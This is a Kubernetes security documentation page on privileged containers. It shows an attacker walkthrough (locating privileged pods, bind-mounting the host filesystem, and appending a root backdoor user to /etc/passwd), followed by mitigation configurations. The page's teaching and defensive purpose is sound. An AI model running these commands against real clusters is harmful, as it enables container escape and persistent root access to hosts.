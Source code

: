```yaml
---
sidebar_position: 3
title: Privileged Containers
description: Understanding the risks of privileged containers in Kubernetes and implementing best practices to secure workloads.
---
```


# Privileged Containers

**Privileged containers** run with **elevated permissions**, granting them **access to the host system's resources**. This configuration can lead to severe **security risks**, including the ability to **modify the host file system**, **access hardware devices**, and **escalate privileges** to the host.

---

## 🚩 Exploitation Steps: Privileged Container

An attacker identifies a **privileged container** in the Kubernetes cluster using **kubectl**:

```bash
kubectl get pods -o json | jq '.items[] | select(.spec.containers[].securityContext.privileged == true) | .metadata.name'
```

### 1. Gain Host Access via Privileged Container

The **attacker** can execute commands as **root** on the **host system**:

```bash
kubectl exec -it <privileged-pod> -- /bin/sh
```

### 2. Mount the Host File System

The **attacker** mounts the **host's root file system** to the **privileged container**:

```bash
mkdir /mnt/host
mount -o bind / /mnt/host
cd /mnt/host
ls -al
```

### 3. Create a Backdoor

The **attacker** adds a **malicious user** to the host **/etc/passwd** file, creating a **backdoor**:

```bash
echo 'malicious_user:x:0:0:root:/root:/bin/bash' >> /mnt/host/etc/passwd
```

### ✅ Result

The attacker gains **persistent access** to the **host system**, allowing them to **execute commands as root**, **manipulate files**, and **bypass container isolation**.

---

## 🛡️ Mitigation Techniques and Fixes

### 1. Avoid Running Privileged Containers

- **Issue:** Privileged containers can **bypass security boundaries** and **access the host**.
- **Fix:** Set **privileged: false** in the **PodSecurityContext**.

#### ✅ Example Pod Configuration

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: non-privileged-pod
spec:
  containers:
  - name: app-container
    image: nginx
    securityContext:
      privileged: false
```

### 2. Use Pod Security Standards (PSS)

- **Issue:** Lack of **security policies** allows privileged containers to run.
- **Fix:** Enforce **Pod Security Policies (PSP)** or **Pod Security Standards (PSS)**.

#### ✅ Example of a Restricted Pod Security Policy

```yaml
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
  name: restricted-psp
spec:
  privileged: false
  runAsUser:
    rule: MustRunAsNonRoot
  allowPrivilegeEscalation: false
  volumes:
    - configMap
    - emptyDir
    - projected
    - secret
    - downwardAPI
  seLinux:
    rule: RunAsAny
```

### 3. Implement Admission Controllers

- **Issue:** Privileged containers can be created **without restriction**.
- **Fix:** Use **admission controllers** to **block privileged containers**.

#### ✅ Example Using OPA Gatekeeper Policy

```yaml
apiVersion: templates.gatekeeper.sh/v1beta1
kind: ConstraintTemplate
metadata:
  name: k8sprivilegedcontainer
spec:
  crd:
    spec:
      names:
        kind: K8sPrivilegedContainer
  targets:
    - target: admission.k8s.gatekeeper.sh
      rego: |
        package k8sprivilegedcontainer

        violation[{"msg": msg}] {
          input.review.object.spec.containers[_].securityContext.privileged == true
          msg := "Privileged containers are not allowed"
        }
---
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sPrivilegedContainer
metadata:
  name: deny-privileged-containers
spec:
  match:
    kinds:
      - apiGroups: [""]
        kinds: ["Pod"]
```

---

## ✅ Key Takeaway

To **mitigate risks** associated with **privileged containers**:

- **Disable privileged mode** by setting **privileged: false** in the **securityContext**.
- **Enforce Pod Security Standards (PSS)** to restrict **risky configurations**.
- Use **admission controllers** to **prevent privileged container deployments**.
